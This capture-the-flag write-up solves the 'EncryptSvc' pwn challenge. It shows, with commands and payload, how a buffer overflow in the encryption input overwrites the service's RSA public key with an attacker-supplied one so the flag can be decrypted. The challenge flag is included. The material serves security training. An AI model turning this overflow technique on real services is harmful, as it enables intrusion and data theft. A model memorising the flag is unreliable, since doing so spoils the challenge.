








# EncryptSvc
Pwn

## Challenge 

	DESCRIPTION
	Pwn me~! Or prawn mee? ;)

	encryptsvc.cddc19q.ctf.sg 54321

	MD5("encryptsvc"): FA3D871D7FA39397922A75E18E1551E0

	ATTACHED FILES
	encryptsvc

## Solution

We are given a program which we can encrypt our messages and also an example message (which is the flag).

If we decompile in Ghidra, we see that we can do a buffer overflow during Encryption, where the buffer is 0x100 bytes but we can input 0x214 bytes.

The decrypt message is disabled.

---

Trying to override using buffer overflow. Here we see that the result is the RSA failed to be created after I do the overflowing.

Looking around, it seems that it overrides the public key with an offset of 256.

I used pwn cyclic to do fuzzig of offset length

	# pwn cyclic 319
	aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaa
	# pwn cyclic -l oaac                                                           
	256

---

For testing purpose, I made an RSA key with a size of 128 bits.

	 $ openssl genrsa -out my_private.pem 192
	Generating RSA private key, 192 bit long modulus
	.+++++++++++++++++++++++++++
	.+++++++++++++++++++++++++++
	e is 65537 (0x10001)
	
	 $ openssl rsa -in my_private.pem -pubout > my_public.pem
	writing RSA key

Then I did the overflow of the public key with this encryption payload.

	aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac
	-----BEGIN PUBLIC KEY-----
	MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDgLrn8w43ayMc6v435IbO+9xlf
	mMwL7F+yNkXAlQJJMjpCQ7nmaRHBsDDmrAQMqSQXkuMSda8BqF5jsCktIuDuFMbN
	YjrPasTgBGsou9N3TkCxpB1Nk3uy5npNHqQwR1ltUv7Gdsrgby2VX/jPUQKc8HC+
	hy1rN7jBFmbvZ7AcLwIDAQAB
	-----END PUBLIC KEY-----

And then I did an encryption of the text `hello`.

Using PyCrypto to decrypt, we get back the `hello` text but padded.

If we try to do a encryption of example text, it fails because our key is too small.

Repeat the key generation for 1024 bits

	 $ openssl genrsa -out my_private.pem 1024
	 $ openssl rsa -in my_private.pem -pubout > my_public.pem

And then decrypt again using the script to get the example message with the flag

	b'\x02\xc7Xl\xc6*\xa1\xdf\x01\xfb\xc7\xb6\xf7dsv\x01?lI~\xa4I\xf6\xc3\xb6\x81\xc61\x8f\x05\x81C\x97\xcc\xd6\xe0\x97V\x96\x11\xb1\x0bB\x8fWy\xc5\x9a\xa2\xa6\r\x90\x88%SE\xf66k\x8ez\xf9@\xa4n\xe07\xcc\x99_^\xef\x7f|\x93Ym\xa0\xd5MK\xb8t\x81\x80T\xa6&\xd0\x17\x00$CDDC19${public_key_0verwritten!!!}'

## Flag

	$CDDC19${public_key_0verwritten!!!}
